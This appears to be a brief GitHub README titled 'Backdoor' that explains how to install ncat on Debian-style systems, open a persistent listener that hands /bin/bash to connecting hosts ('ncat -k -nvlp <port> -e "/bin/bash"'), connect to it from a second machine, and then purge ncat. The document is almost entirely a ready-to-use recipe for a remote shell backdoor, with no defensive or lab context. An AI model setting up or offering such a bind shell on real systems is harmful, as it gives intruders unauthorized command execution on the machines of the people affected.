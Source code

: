 # Backdoor 
## Install ncat on the local box
### Apt-get (Install)
```
sudo apt-get update
sudo apt-get -y install ncat
```
### Apt (Install)
```
sudo apt update
sudo apt -y install ncat
```

### Aptitude (Install)
```
sudo aptitude update
sudo aptitude -y install ncat
```

## Local box that will be backdoored into 
```
ncat -k -nvlp <port> -e "/bin/bash" --allow <ip's go here>
```

## Box that will backdoor into local machine 
```
ncat -nv <ip address of local box> <port>
```


### If ncat needs to be deleated
```
sudo apt-get -y autoremove --purge ncat
```
